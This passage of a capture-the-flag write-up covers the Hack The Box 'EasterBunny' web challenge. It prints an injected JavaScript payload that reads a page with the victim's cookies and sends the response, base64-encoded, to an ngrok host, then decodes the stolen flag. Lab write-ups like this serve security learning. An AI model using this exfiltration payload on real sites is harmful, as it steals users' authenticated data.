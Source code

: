 Payload injected:

```jsx
var url = "http://127.0.0.1/message/3";
var attacker = "http://5a78-2-42-243-225.ngrok.io/exfil";
var xhr  = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

Triggered the bot and exfiltrated the flag:

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%209.png)

![Untitled](../../zzz_res/attachments/EasterBunny%20e580b8ca86214deb837383b8e4c495a4%2010.png)

```bash
┌──(maoutis㉿kali)-[~/CTF/HTB/web_easterbunny/exploit]
└─$ echo -n 'eyJtZXNzYWdlIjoiRGVhciBFYXN0ZXIgQnVubnksIFNhbnRhJ3MgYmV0dGVyIHRoYW4geW91ISBIVEJ7N2gzXzNhczdlcl9idW5ueV9oNDVfYjMzbl9wMDE1MG4zZCF9IiwiY291bnQiOjEyfQ==' | base64 -d                                      
{"message":"Dear Easter Bunny, Santa's better than you! HTB{7h3_3as7er_bunny_h45_b33n_p0150n3d!}","count":12}
```

# Flag

>[!success]
>`HTB{7h3_3as7er_bunny_h45_b33n_p0150n3d!}`

